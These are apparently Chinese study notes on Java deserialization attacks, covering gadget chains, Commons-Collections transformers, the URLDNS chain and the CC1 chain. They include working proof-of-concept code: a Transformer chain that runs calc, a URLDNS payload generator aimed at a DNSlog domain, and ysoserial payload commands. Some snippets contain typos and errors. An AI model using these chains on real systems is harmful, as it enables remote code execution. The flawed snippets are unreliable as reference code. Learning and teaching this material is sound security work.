3. **反序列化漏洞不是 readObject 本身的问题，而是受害者系统中存在的特定类的问题**
   1. 原因
      ```java
        // readObject 本身是安全的，只是 Java 的一个普通机制
        // 它成为"漏洞入口"是因为：
        // 1. 某些类的 readObject 方法里写了危险代码
        // 2. 这些危险代码可以被攻击者控制的数据触发
        // 3. 受害者系统中恰好有这些类
      ```
   2. 攻击流程
      ```
      1. 攻击者反射构造对象，设置 command = "calc.exe"
      2. 序列化 → 得到字节流
      3. 受害者反序列化
      4. readObject() 自动执行 → calc.exe 弹出      
      ``` 
   3. 正常示例
      ```java
        // 受害者系统只有 JDK 自带类，没有 commons-collections
        public class SafeServer {
            public static void main(String[] args) throws Exception {
                // 反序列化一个普通的 User 对象
                byte[] data = ...;
                ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
                User user = (User) ois.readObject();  // ← 安全！没有危险代码执行
            }
        }

        class User implements Serializable {
            private String name;
            private int age;
            // 没有定义 readObject，使用默认行为
            // 默认 readObject 只做字段恢复，不做任何危险操作
        }
      ```  
   4. 攻击示例
      1. 受害者的正常业务代码
         ```java
           // 受害者的正常代码（比如一个Web应用）
           public class UserService {
               
               // 从网络接收用户数据并反序列化
               public void processUserData(byte[] userData) {
                   try {
                       // 受害者只是正常地反序列化一个User对象
                       ByteArrayInputStream bais = new ByteArrayInputStream(userData);
                       ObjectInputStream ois = new ObjectInputStream(bais);
                       User user = (User) ois.readObject();  // ← 这里会触发！
                       ois.close();
                       
                       System.out.println("收到用户: " + user.getName());
                       
                   } catch (Exception e) {
                       e.printStackTrace();
                   }
               }
           } 
         ```
      2. 攻击者先找到一个受害者系统里有的、存在漏洞的类
          ```java
           // 这个类在受害者系统的某个依赖包里（比如 commons-collections）
           package com.some.library;

           public class User implements Serializable {
               private String name;
               private String command;  // ← 攻击者会控制这个字段
               
               private void readObject(ObjectInputStream in) throws Exception {
                   in.defaultReadObject();  // 恢复 name 和 command
                   
                   // 🔥 这是开发者无意间写的危险代码
                   if (command != null && !command.isEmpty()) {
                       Runtime.getRuntime().exec(command);  // 危险！
                   }
               }
           }  
          ```  
      3. 攻击者构造恶意对象 
         ```java
            // 攻击者的代码
            public class Attack {
                public static void main(String[] args) throws Exception {
                    // 创建受害者系统中存在的 User 类
                    User maliciousUser = new User();
                    
                    // 通过反射设置 command 字段（因为可能是 private）
                    Class<?> clazz = maliciousUser.getClass();
                    Field cmdField = clazz.getDeclaredField("command");
                    cmdField.setAccessible(true);
                    
                    // 🔥 关键：攻击者把反射代码作为字符串存进去
                    String reflectionCode = 
                        "Class<?> clazz=Class.forName(\"java.lang.Runtime\");" +
                        "Method m=clazz.getDeclaredMethod(\"getRuntime\");" +
                        "Object rt=m.invoke(null);" +
                        "m=clazz.getDeclaredMethod(\"exec\",String.class);" +
                        "m.invoke(rt,\"calc\");";
                    
                    cmdField.set(maliciousUser, reflectionCode);
                    
                    // 序列化这个恶意对象
                    ByteArrayOutputStream baos = new ByteArrayOutputStream();
                    ObjectOutputStream oos = new ObjectOutputStream(baos);
                    oos.writeObject(maliciousUser);
                    
                    byte[] payload = baos.toByteArray();
                    // 发送给受害者...
                }
            }         
         ``` 
      4. 受害者正常业务触发反序列化
         ```java
            // 受害者完全正常的代码
            public class VictimServer {
                public void handleRequest(byte[] data) {
                    // 受害者只是正常地反序列化
                    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
                    User user = (User) ois.readObject();  // ← 这里会触发！
                    // ... 正常业务逻辑
                }
            }         
         ```
      5. JVM 自动执行 readObject
         ```java
            // 当执行到 ois.readObject() 时，JVM 内部会：

            // 1. 读取字节流，发现要创建 User 对象
            // 2. 创建空的 User 对象
            // 3. 恢复字段：name = null, command = "反射代码字符串"
            // 4. 发现 User 类有 readObject 方法，自动调用
            // 5. 执行 User.readObject()：     
         ```
4. toString() / hashCode()在Gadget链中的作用
   1. 正常情况下不会被调用
      ```java
        // 正常反序列化，toString() 和 hashCode() 不会自动执行
        Object obj = ois.readObject();  // 只调用 readObject()
      ``` 
   2. 但在 Gadget 链中会被间接触发
      经典案例：HashMap.readObject() 会调用 key.hashCode()
      ```java
        // java.util.HashMap 的 readObject（简化）
        private void readObject(ObjectInputStream in) {
            // 读取元素数量
            int size = in.readInt();
            
            // 重建 HashMap
            for (int i = 0; i < size; i++) {
                Object key = in.readObject();   // 反序列化 key
                Object value = in.readObject(); // 反序列化 value
                putForCreate(key, value);       // ← 内部会调用 key.hashCode()
            }
        }
      ``` 
      攻击链
        ```java
        HashMap.readObject()
            ↓
        putForCreate(key, value)
            ↓
        key.hashCode()  ← 被调用！
            ↓
        如果 key 是 URL 对象，hashCode() 会触发 DNS 查询
        ```
   3. URLDNS 链原理（经典示例）
      ```java
      // java.net.URL 的 hashCode()
        public synchronized int hashCode() {
            if (hashCode != -1)
                return hashCode;
            
            hashCode = handler.hashCode(this);  // ← 触发 DNS 查询
            return hashCode;
        }
      ```   
      攻击者构造
      ```java
        HashMap<URL, String> map = new HashMap<>();
        URL url = new URL("http://dnslog.cn/xxx");
        map.put(url, "anything");  // 序列化时 hashCode 被缓存，不会触发

        // 但反序列化时：
        // 1. HashMap.readObject() 重建 map
        // 2. 调用 putForCreate() → url.hashCode()
        // 3. hashCode() 触发 DNS 查询
        // 4. dnslog.cn 收到请求，证明存在漏洞
      ``` 
   4. 总结：hashCode() 可能在 HashMap.readObject() 中被调用，toString() 可能在 TreeMap、HashSet 等类的 readObject() 中被调用。攻击者利用这些"意料之外"的触发点来构造 Gadget 链。          
5. 反序列化漏洞的核心：readObject() 是入口，hashCode() / toString() 是间接触发点
### Gadget【受害者系统中已经存在的可以被攻击者利用的类或方法片段】链
1. 存在的根本原因：可以执行命令的类基本上都不是可序列化
    
2. 核心原理：readObject 本身没有危险代码，但它调用了某个方法，那个方法又调用了另一个方法...最终到达危险代码。
   1. 链式调用示例
      ```java
        // 类A：readObject 中调用了 put
        public class ClassA implements Serializable {
            private Map map;
            private Object key;
            private Object value;
            
            private void readObject(ObjectInputStream in) {
                in.defaultReadObject();
                map.put(key, value);  // ← 看起来无害
            }
        }

        // 类B：put 方法中调用了 transform
        public class ClassB implements Serializable {
            private Transformer transformer;
            
            public Object put(Object key, Object value) {
                // 如果 key 不存在，调用 transformer
                if (!containsKey(key)) {
                    Object result = transformer.transform(key);
                    put(key, result);
                    return result;
                }
                return null;
            }
        }

        // 类C：transform 中执行反射
        public class ClassC implements Serializable {
            private String methodName;
            
            public Object transform(Object input) {
                Method m = input.getClass().getMethod(methodName);
                return m.invoke(input);
            }
        }      
      ``` 
   2. 调用链图解
      ```
        ClassA.readObject()
            ↓
        map.put(key, value)
            ↓ (假设 map 是 ClassB 的实例)
        ClassB.put()
            ↓ (key 不存在)
        transformer.transform(key)
            ↓ (transformer 是 ClassC 的实例)
        ClassC.transform()
            ↓
        反射调用 → Runtime.exec()      
      ```
   3. 真实cc1链
      ```java
        // 真实 CC1 链的调用关系
        AnnotationInvocationHandler.readObject()
            ↓
        MapEntrySet.getValue()
            ↓
        LazyMap.get()
            ↓
        factory.transform(key)  // factory 是 ChainedTransformer
            ↓
        ChainedTransformer.transform()
            ↓
        InvokerTransformer.transform() × 4
            ↓
        Runtime.exec()
      ```  
3. 为什么需要链
   ```
    攻击者想要的最终目标：Runtime.exec()

    但是：没有哪个正常的类会在 readObject 里直接调用 exec()

    所以：需要多个类配合
        A.readObject() → 调用 B.xxx() → 调用 C.yyy() → ... → 最终 exec()

    这就是为什么叫 Gadget "链" (Chain)
    ```
4. Gadget的分类
   1. 入口Gadget：提供 readObject 入口	【AnnotationInvocationHandler、BadAttributeValueExpException】
   2. 调用Gadget：触发下一个 Gadget【LazyMap、TransformedMap】
   3. 执行Gadget：执行反射/命令【InvokerTransformer】
   4. 串联Gadget：串联多个Gadget【ChainedTransformer】
     
5. 攻击者如何找到这些类
   1. 已知的Gadget库
   2. 查找思路
      1. 实现了 Serializable 的类
      2. 有 readObject 方法
      3. readObject 中调用了其他方法
      4. 这些方法的参数可被攻击者控制
      5. 最终能走到反射或命令执行      
6. 
7. commons-collections 库介绍
   1. 版本差异
      1. commons-collections 3.x【漏洞重灾区，CC1-CC7 的温床】
      2. commons-collections 4.x【部分链仍然存在漏洞（如 CC2、CC4）】
   2. 为什么这个库是"经典靶场"？
      ```xml
        <!-- 依赖坐标 -->
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
      ```
      原因：
        广泛应用（大量 Java 项目使用）
        提供了 InvokerTransformer（可反射调用任意方法）
        提供了 ChainedTransformer（可串联调用）
        类实现了 Serializable（可被反序列化） 
   3. 需要知道的类
       
   4. 总结：commons-collections 是反序列化漏洞的"经典靶场"，InvokerTransformer + ChainedTransformer 是 CC 链的核心组合。
8. Transformer接口
   1. 接口定义
      ```java
        public interface Transformer {
            Object transform(Object input);  // 输入一个对象，返回另一个对象
        }
      ``` 
   2. 三个核心实现类
      1. ConstantTransformer（起点）
         1. 输入任意值，返回固定常量
         2. 执行示例
            ```java
            // 创建时指定常量
            Transformer t = new ConstantTransformer(Runtime.class);

            // 无论输入什么，都返回 Runtime.class
            t.transform("随便什么");     // 返回 Runtime.class
            t.transform(null);          // 返回 Runtime.class
            t.transform(12345);         // 返回 Runtime.class
            t.transform(new Object());  // 返回 Runtime.class            
            ```
         3. 为什么需要该类：cc链中，第一步需要一个起点对象，ConstantTransformer可以提供
            ```java
            // 输入 null，输出 Runtime.class
            // 后面的 InvokerTransformer 就能基于 Runtime.class 继续调用            
            ```
      2. InvokerTransformer（危险核心）
         1. 简单理解：InvokerTransformer 就是"反射调用代码的序列化版本"
         2. 为什么需要：因为攻击者写的反射调用代码不可序列化，需要通过InvokerTransformer将攻击者想要实现的反射调用代码转换为可序列化的对象。攻击者不能把反射代码直接发给受害者。他们必须把反射代码"翻译"成 InvokerTransformer 对象链，因为这些对象可以被序列化。受害者反序列化时，这些对象的 transform() 方法被自动调用，最终等价于执行了反射代码。
         
         3. 源码
            ```java
            // Commons Collections 3.2.1 中的真实源码
            package org.apache.commons.collections.functors;

            public class InvokerTransformer implements Transformer, Serializable {
                
                private static final long serialVersionUID = -8653385846894047688L;
                
                // 存储的三个关键信息
                private final String iMethodName;      // 要调用的方法名
                private final Class[] iParamTypes;     // 方法的参数类型数组
                private final Object[] iArgs;          // 方法的参数值数组
                
                // 构造方法
                public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
                    this.iMethodName = methodName;
                    this.iParamTypes = paramTypes;
                    this.iArgs = args;
                }
                
                // 🔥 核心方法：通过反射调用任意方法
                public Object transform(Object input) {
                    if (input == null) {
                        throw new IllegalArgumentException("Input object cannot be null");
                    }
                    try {
                        // 1. 获取 input 对象的类
                        Class<?> cls = input.getClass();
                        
                        // 2. 获取方法（支持私有方法？不，getMethod 只能拿 public）
                        //    这就是为什么某些链需要 getDeclaredMethod 的问题
                        Method method = cls.getMethod(iMethodName, iParamTypes);
                        
                        // 3. 调用方法
                        return method.invoke(input, iArgs);
                        
                    } catch (Exception e) {
                        throw new FunctorException("InvokerTransformer: " + e.getMessage());
                    }
                }
            }        
            ``` 
         4. InvokerTransformer的三个关键字段
            
         5. InvokerTransformer 的限制
         6. InvokerTransformer对象与反射调用方法
            1. 调用getMethod("getRuntime")
               ```java
               Transformer step2=new InvokerTransformer("getMethod",Class[]{String.class,Class[].class},Object[]{"getRuntime",new Class[0]});
               // 输入：Runtime.class
               // 输出：Method 对象（代表 getRuntime 方法）
               ```
            2. 调用invoke(null)获取Runtime实例
               ```java
               Transformer step3=new InvokerTransformer("invoke",Class[]{Object.class,Object[].class},Object[]{null,new Object[0]});
               // 输入：Method 对象
               // 输出：Runtime 实例
               ```
            3. 调用exec("calc")
               ```java
               Transformer step4=new InvokerTransformer("exec",class[]{String.class},Object[]{"calc"}); 
               // 输入：Runtime 实例
               // 输出：Process 对象   
               ```   
      3. ChainedTransformer（串联器）
         1. 作用：把多个Transformer串联起来，让前一个的输出作为后一个的输入
         2. 源码简化版
            ```java
            public class ChainedTransformer implements Transformer {
                private final Transformer[] iTransformers;  // Transformer 数组
                
                public ChainedTransformer(Transformer[] transformers) {
                    this.iTransformers = transformers;
                }
                
                public Object transform(Object input) {
                    Object result = input;
                    // 依次调用每个 Transformer，前一个的输出是后一个的输入
                    for (Transformer t : iTransformers) {
                        result = t.transform(result);
                    }
                    return result;
                }
            }            
            ``` 
         3. 执行流程
            ```java
            // 假设有3个 Transformer
            Transformer[] transformers = {A, B, C};
            ChainedTransformer chain = new ChainedTransformer(transformers);

            // 调用 chain.transform(input)
            Object result = chain.transform(input);
            // step1 = A.transform(input) 
            // step2 = B.transform(step1)
            // step3 = C.transform(step2)  
            // return=step3          
            ``` 
      4. ConstantTransformer 提供起点，InvokerTransformer 执行反射调用，ChainedTransformer 把它们串成链。三条配合，从 null 一路走到 calc.exe。这就是 CC 链的核心原理，也是所有反序列化 Gadget 链的模板。
      5. 简单示例
         ```java
            import org.apache.commons.collections.Transformer;
            import org.apache.commons.collections.functors.ChainedTransformer;
            import org.apache.commons.collections.functors.ConstantTransformer;
            import org.apache.commons.collections.functors.InvokerTransformer;

            public class transformerDemo {
                public static void main(String[] args) {
                    // 构造 Transformer 链
                    Transformer[] transformers = new Transformer[] {
                        // 1. 返回 Runtime.class
                        new ConstantTransformer(Runtime.class),
                        
                        // 2. 调用 getMethod("getRuntime")
                        new InvokerTransformer(
                            "getMethod",
                            new Class[]{String.class, Class[].class},
                            new Object[]{"getRuntime", new Class[0]}
                        ),
                        
                        // 3. 调用 invoke(null)
                        new InvokerTransformer(
                            "invoke",
                            new Class[]{Object.class, Object[].class},
                            new Object[]{null, new Object[0]}
                        ),
                        
                        // 4. 调用 exec("calc")
                        new InvokerTransformer(
                            "exec",
                            new Class[]{String.class},
                            new Object[]{"calc"}
                        )
                    };
                    
                    // 串联起来
                    ChainedTransformer chain = new ChainedTransformer(transformers);
                    
                    // 触发链
                    System.out.println("start");
                    chain.transform(null);  // 💥 弹出计算器
                    System.out.println("ok");
                }
            }         
         ```
         验证执行结果成功执行
   3. 如果受害者代码中已经存在 transformer.transform(input) 这样的调用点（比如在某个类的 readObject 中）。攻击者通过构造并序列化 ChainedTransformer 对象，让受害者的反序列化过程把这个对象"复活"到 transformer 变量中。当受害者代码执行 transformer.transform(input) 时，实际执行的是攻击者预设的 ChainedTransformer.transform()，从而触发整个反射链，执行任意命令。攻击者写逻辑，受害者提供执行时机。
9.  总结：攻击者需要的 Gadget 有三种情况：直接危险（极少见）、间接调用（最常见，如 CC1 链）、hashCode/toString 触发（如 URLDNS 链）。核心是找到受害者系统中已有的类，这些类的 readObject 或它调用的方法最终能链式到达 Runtime.exec()。InvokerTransformer 之所以是核心，就是因为它提供了"间接调用到任意方法"的能力。
## Gadget Chain
### URLDNS链
1. 是什么：URLDNS是一个无害的探测链，仅根据反序列化触发DNS查询，用于探测目标是否存在反序列化漏洞
2. 特点
   1. 危害：无危害，仅触发DNS查询，不执行命令
   2. 依赖：JDK自带的类，无需第三方库
   3. 用途：用于探测目标是否存在反序列化漏洞
3. 核心原理：HashMap的readObject会遍历所有的key，调用key.HashCode，如果key是URL对象的话，URL.HashCode会触发DNS查询
4. 简化版源码
   ```java
    // 1. HashMap.readObject() 调用
    private void readObject(ObjectInputStream in) {
        // ... 
        for (int i = 0; i < mappings; i++) {
            K key = (K) in.readObject();
            V value = (V) in.readObject();
            putForCreate(key, value);  // ← 入口
        }
    }

    // 2. putForCreate 内部
    private void putForCreate(K key, V value) {
        int hash = hash(key);           // ← 调用 hash() 计算哈希值
        // ... 然后放入内部数组
    }

    // 3. hash() 方法
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
        //                                 ↑
        //                           🔥 关键！调用 key 的 hashCode() 方法
    }

    // 4. 如果 key 是 URL 对象，调用 URL.hashCode()
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;
        hashCode = handler.hashCode(this);  // ← 触发 DNS
        return hashCode;
    }   
   ```
   1. hashCode
      1. 用途：返回一个整数，用于快速定位对象在哈希表中的位置
         示例：
         ```java
            // 当你把对象放入 HashMap 时
            HashMap<String, String> map = new HashMap<>();
            map.put("key", "value");

            // HashMap 内部会：
            // 1. 调用 key.hashCode() 得到哈希值
            // 2. 根据哈希值计算存储位置
            // 3. 把 key-value 存到那个位置

            // 当你要取数据时
            String value = map.get("key");
            // HashMap 再次调用 hashCode() 找到位置
         ```
         
   2. Object类的hashCode
      ```java
        // java.lang.Object 中的 hashCode 方法
        public native int hashCode();
      ```
      特点：
        1. native表示底层由c语言实现
        2. 默认返回对象的内存地址（经过转换） 
        3. 不同对象通常返回不同的哈希值
           ```java
            Object obj1 = new Object();
            Object obj2 = new Object();
            System.out.println(obj1.hashCode());  // 如: 123456789
            System.out.println(obj2.hashCode());  // 如: 987654321
           ```
        4. hashCode的约定
           
        5. URL的hashCode
           ```java
            public synchronized int hashCode() {
                if (hashCode != -1)
                    return hashCode;
                hashCode = handler.hashCode(this);  // 会触发 DNS 查询
                return hashCode;
            }
           ```
           **URL 的 hashCode() 在计算过程中会触发 DNS 查询，这就是 URLDNS 链的根源**   
5. putForCreate的调用时机
   putForCreate是HashMap在反序列化时重建内部数组的方法，不是正常put时调用的,这是反序列化特有的路径。
6. 为什么URL的hashCode会触发DNS解析
   ```java
    // URL.hashCode() 内部
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;
        // 🔥 handler.hashCode() 会调用 getHostAddress()
        hashCode = handler.hashCode(this);
        return hashCode;
    }

    // handler.hashCode() 内部
    protected int hashCode(URL u) {
        // ...
        // 🔥 获取主机地址会触发 DNS 解析
        InetAddress addr = getHostAddress(u);
        // ...
    }
   ```
   ULR类的hashCode()需要基于主机地址计算哈希值，但计算过程中会临时触发DNS解析。这在正常使用中没问题，但在反序列化场景中就成了漏洞。
7. URLStreamHandler.hashCode() 的源码
   ```java
    // sun.net.www.protocol.http.Handler 的 hashCode（父类方法）
    protected int hashCode(URL u) {
        int h = 0;
        
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();
        
        String host = u.getHost();
        if (host != null) {
            h += host.toLowerCase().hashCode();
            // 🔥 关键！获取主机地址会触发 DNS 解析
            InetAddress addr = getHostAddress(u);
        }
        // ...
        return h;
    }
   ```                
8. 完整调用链
   ```
   ObjectInputStream.readObject();
          |
   HashMap.readObject();
          |
   HashMap.putForCreate(key,value);
          |
   hash(key);
          |
   key.HashCode();
          |
   URL.HashCode();
          |            
   handler.HashCode(this);
          |
   getHostAddress();
          |
   InetAddress.getByName(host);
   ```
9. 为什么选HashMap作为入口
   1. 实现了Serializable接口可以被序列化
   2. HashMap类的readObject会调用key.HashCode()从而触发URL的hashCode
   3. JDK内置不依赖第三方库
10. 为什么选择URL作为key
   1. 实现Serializable接口，可以被序列化
   2. URL类的hashCode会触发网络请求，触发DNS查询
   3. JDK内置
11. 为什么要重置hashCode=-1
   1. 源码
      ```java
        // URL 类的 hashCode 有缓存机制
        public synchronized int hashCode() {
            if (hashCode != -1)    // 如果已经计算过，直接返回缓存
                return hashCode;
            
            hashCode = handler.hashCode(this);
            return hashCode;
        }
      ```
   2. 问题：当map.put(url,"test")已经触发过一次hashCode()时，url.hashcode就存在于缓存中了（!=-1），下次就不会再触发DNS解析查询，直接从缓存中查找
   3. 解决方法：通过反射将hashCode字段的值重置为-1
      ```java
        Field hashCode=clazz.gerDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,-1);
      ```
12. 使用 ysoserial 工具生成URLDNS链payload
    1. 基本命令`cmd /c "java --add-opens java.base/java.net=ALL-UNNAMED -jar ysoserial.jar URLDNS http://your-dnslog-domain > payload.ser"`
       1. `URLDNS`指定利用链类型
       2. `"http://your-dnslog-domain"`攻击者的DNSlog域名 
       3. `> payload.ser`将生产的二进制payload重定向到文件中
    2. 具体示例
       1.  使用ysoserial攻击生成payload文件
            ```java
            java -jar ysoserial.jar URLDNS "http://e9d1a69b10.ddns.1433.eu.org" > payload.ser
            ```
       2. 编写一个测试代码
            ```java
            import java.io.FileInputStream;
            import java.io.ObjectInputStream;

            public class testysoserial {
               public static void main(String[] args) throws Exception {
                  FileInputStream fis=new FileInputStream("payload.ser");
                  ObjectInputStream ois=new ObjectInputStream(fis);
                  ois.readObject();
                  ois.close();
                  fis.close();
               }

            }
            ``` 
       3. 编译测试代码`javac testysoserial.java` 
       4. 运行测试`java testysoserial`然后查看是否有DNS查询记录测试成功
    3. 踩坑：
          1. jdk版本高于8的需要在运行ysoserial.jar时在-jar参数前面加上--add-opens java.base/java.net=ALL-UNNAMED参数，因为jdk9就因人力模块化系统，默认情况下，外部代码不能通过反射访问java.base/java.net包中的私有成员。URLDNS链需要修改hashCode字段的值为-1因此需要加上以上参数允许所有未命名的模块（也就是攻击者的代码）访问java.base模块下的java.net包
          2. 在windows命令行重定向二进制数据时经常出问题
             1. 这是直接这样`java --add-opens java.base/java.net=ALL-UNNAMED -jar ysoserial.jar URLDNS "http://e9d1a69b10.ddns.1433.eu.org" `运行ysoserial.jar生成的文件的文件头
             2. FF FE 是 UTF-16 LE 编码的 BOM（字节顺序标记），说明 PowerShell 把二进制数据当作文本编码转换了，破坏了原始格式。
             3. 解决方案：用 PowerShell 重定向二进制`cmd /c "java --add-opens java.base/java.net=ALL-UNNAMED -jar ysoserial.jar URLDNS http://e9d1a69b10.ddns.1433.eu.org > payload.ser"`这次成功生成了正确的二进制payload
13. 手工编写生成URLDNS链payload
    1. 代码组成
       1. 将URL对象放入HashMap对象中
       2. 反射修改URL对象的hashCode字段值
       3. 序列化HashMap对象
       4. 反序列化HashMap对象触发DNS解析查询
    2. 完整代码示例
         ```java
            import java.io.FileOutputStream;
            import java.io.IOException;
            import java.io.ObjectOutputStream;
            import java.net.URL;
            import java.util.HashMap;
            import java.lang.reflect.Field;

            public class URLDNSDemo {
               public static void main(String[] args) throws IOException,IllegalAccessException,NoSuchFieldException{
                  
                  URL url=new URL("http://e9d1a69b10.ddns.1433.eu.org.");
                  HashMap<URL, String> hmp=new HashMap<>();
                  hmp.put(url, "test");

                  Field f=URL.class.getDeclaredField("hashCode");
                  f.setAccessible(true);
                  f.set(url,-1);

                  FileOutputStream fos=new FileOutputStream("payload.ser");
                  ObjectOutputStream oos=new ObjectOutputStream(fos);
                  oos.writeObject(hmp);
                  oos.close();
                  fos.close();
                  System.out.println("Payload created: payload.ser");
                  System.out.println("sizeof" + "payload.ser: " + new java.io.File("payload.ser").length() + " bytes");


                  FileInputStream fis=new FileInputStream("payload.ser");
                  ObjectInputStream ois=new ObjectInputStream(fis);
                  ois.readObject();
                  ois.close();
                  fis.close();
                  System.out.println("Check your DNSLog platform for the incoming request when deserializing this payload.");
               }

            }
         ```
    3. 编译运行脚本 
    4. 查看DNSlog脚本运行成功
12. 调试（使用的是上面自己手工编写的代码） 
    1. 在关键方法调用处设置断点
       1. 反序列化入口` ois.readObject();`
       2. `HashMap.readObject()`遍历key计算hash.png)
       3. `URL.hashCode()`获取自身的hashCode
       4. `URLStreamHandler`获取主机ip触发DNS查询
    2. 开始调试，在每一处预设断点处观察方法调用是否符合预期
       1. 当遍历到`key=URL@162`时，就是我们创建的URL对象，下一步应该就会跳转到URL.hashCode()
       2. 成功按照预期跳转到我们预先设好的断点处
       3. 顺利跳转到handler.hashCode()
       4. 计算完url对象的hashCode后返回HashMap中
       5. 此时反序列化虽然没有完全结束但已经出发DNS解析查询
13. 补充知识点
    1. URLStreamHandler 的所有子类
       ```
         URLStreamHandler（抽象类）
         ├── sun.net.www.protocol.http.Handler      // http://
         ├── sun.net.www.protocol.https.Handler     // https://
         ├── sun.net.www.protocol.ftp.Handler       // ftp://
         ├── sun.net.www.protocol.file.Handler      // file://
         ├── sun.net.www.protocol.jar.Handler       // jar://
         ├── sun.net.www.protocol.mailto.Handler    // mailto:
         └── ... 其他 
       ```
       URLDNS 链用的是默认的 http.Handler，它的 hashCode() 会触发 DNS
                 
### CC1链 
1. 是什么：CC1链是通过commons-collections库实现的反序列化RCE利用链，核心是通过InvokerTransformer反射实现任意方法调用
2. 完整调用链
   ```
          反序列化handler2
                  |
       执行handler2.readObject()
                  |
      调用memberValues.entrySet()   //memberValues是proxyMap
                  |
         proxyMap.entrySet()        //根据动态代理规则，这个调用被转发给创建 proxyMap 时指定的 InvocationHandler，也就是 handler1 的 invoke() 方法。
                  |
          handler1.invoke()
                  |
      执行memberValues.get(member)  //handler1的memberValues是LazyMap
                  |
             LazyMap.entrySet()     //触发get()方法
                  |
               get(key)             //key不存在时调用factory.transform(key)创建新值
                  |
         factory.transform(key)  //factory设置为ChainedTransformer时
                  |
   串联ConstantTransformer和多个InvokerTransformer调用方法
                  |
            最终实现exec("calc");
   ``` 
3. 各组件的作用
   1. AnnotationInvocationHandler（入口）
      1. 简化版源码
         ```java
         private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
            s.defaultReadObject();
            // ...
            for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) { // ← 注意这里
               // ...
            }
         }  
         ```
      2. 关键点：`for (Map.Entry<String, Object> entry : memberValues.entrySet())`循环遍历memberValues并调用memberValues.entrySet(),如果这个 memberValues 就是我们的 proxyMap（动态代理对象），那么就会调用proxyMap.entrySet()
   2. 动态代理调用invoke()
      1. 简化版源码
         ```java
         // 用 handler1 作为 InvocationHandler，代理 Map 接口
         Map proxyMap = (Map) Proxy.newProxyInstance(
            Map.class.getClassLoader(),
            new Class[]{Map.class},
            handler1  // ← 拦截之后转发给谁，在这里指定的
         );         
         ```
      2. 关键点：invoke() 是 InvocationHandler 接口的方法，AnnotationInvocationHandler 实现了这个接口所以重写了它。配合 Java 动态代理使用：当代理对象上的任何方法被调用时，invoke() 自动介入【由 Java 官方在 Proxy 类的设计规范和 JVM 实现中明确规定】
   3. AnnotationInvocationHandler.invoke()
      1. 简化版源码
         ```java
         public Object invoke(Object proxy, Method method, Object[] args) {
            String member = method.getName();
            // ...处理 equals/toString/hashCode 等特殊方法...
         
            // 普通注解方法的处理
            Object result = memberValues.get(member); // ← 这里！
            // ...
         }         
         ``` 
      2. 关键点：invoke() 里会用方法名去 memberValues.get(methodName) 查值。如果 memberValues 是我们的 LazyMap就会调用LazyMap.get()
   4. LazyMap
      1. 简化版源码
         ```java
         public Object get(Object key) {
            // create value for key if key is not currently in the map
            if (map.containsKey(key) == false) {
               Object value = factory.transform(key);
               map.put(key, value);
               return value;
            }
            return map.get(key);
         }     
         ```
      2. 关键点:get方法在key不存在时调用factory.transform(key)，要设置factory为ChainedTransformer
   5. ChainedTransformer（串联器）
      1. 简化版源码
         ```java
         // org.apache.commons.collections.functors.ChainedTransformer
         public class ChainedTransformer implements Transformer, Serializable {
            
            private final Transformer[] iTransformers;  // Transformer 数组
            
            public ChainedTransformer(Transformer[] transformers) {
               this.iTransformers = transformers;
            }
            
            // 🔥 关键方法：串联调用
            public Object transform(Object object) {
               // 依次调用每个 Transformer
               for (int i = 0; i < iTransformers.length; i++) {
                     object = iTransformers[i].transform(object);  // 前一个的输出是后一个的输入
               }
               return object;
            }
         }         
         ```
      2. 关键点：串联 ConstantTransformer 和多个 InvokerTransformer，从 null 一路走到 exec("calc")
   6. ConstantTransformer（常量返回器）
      1. 简化版源码
         ```java
         // org.apache.commons.collections.functors.ConstantTransformer
         public class ConstantTransformer implements ransformer, Serializable {
            
            private final Object iConstant;  // 固定常量
            
            public ConstantTransformer(Object constant) {
               this.iConstant = constant;
            }
            
            // 🔥 无论输入是什么，都返回固定常量
            public Object transform(Object input) {
               return iConstant;  // 返回 Runtime.class
            }
         }
         ```
      2. 关键点：`public Object transform(Object input) {return iConstant;}`无论输入是什么，都返回固定常量iConstant,设置iConstant为Runtime.class
   7. InvokerTransformer（危险核心）
      1. 简化版源码a-
         ```java
         // org.apache.commons.collections.functors.InvokerTransformer
         public class InvokerTransformer implements Transformer, Serializable {
            
            private final String iMethodName;      // 方法名
            private final Class[] iParamTypes;     // 参数类型数组
            private final Object[] iArgs;          // 参数值数组
            
            public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
               this.iMethodName = methodName;
               this.iParamTypes = paramTypes;
               this.iArgs = args;
            }
            
            // 🔥 核心！反射调用任意方法
            public Object transform(Object input) {
               if (input == null) {
                     throw new IllegalArgumentException("Input object cannot be null");
               }
               try {
                     // 获取方法
                     Method method = input.getClass().getMethod(iMethodName, iParamTypes);
                     // 调用方法
                     return method.invoke(input, iArgs);
               } catch (Exception e) {
                     throw new FunctorException("InvokerTransformer: " + e.getMessage());
               }
            }
         }         
         ```
      2. 关键点：通过反射调用任意方法，参数完全可控（方法名、参数类型、参数值） 
4. 核心机制：两层 Handler 的嵌套
   1. handler2 (外层):这是我们最终要序列化的对象。
      它的 memberValues 字段不是一个普通的 LazyMap，而是一个动态代理对象 proxyMap。
   2. proxyMap (动态代理):它是一个代理了 Map 接口的代理对象。
      它的 InvocationHandler 被设置为 handler1 (内层)。这意味着，对 proxyMap 的任何方法调用，都会被转发给 handler1 的 invoke() 方法。
   3. handler1 (内层):这是另一个 AnnotationInvocationHandler 实例。
      它的 memberValues 字段才是我们真正的、带有恶意 ChainedTransformer 的 LazyMap。
5. 为什么使用AnnotationInvocationHandler作为入口
   1. 它实现了 Serializable：可以被序列化
   2. 它的 readObject() 方法会操作 memberValues 这个 Map：会遍历 entrySet()，甚至可能调用 setValue()
   3. 它对 memberValues 的类型不设防：你传入的 Map 可以是任何 Map 类型（如 TransformedMap、LazyMap）
   4. 它被 JDK 内部使用：默认存在，不需要引入额外库
6. 手工编写完整POC
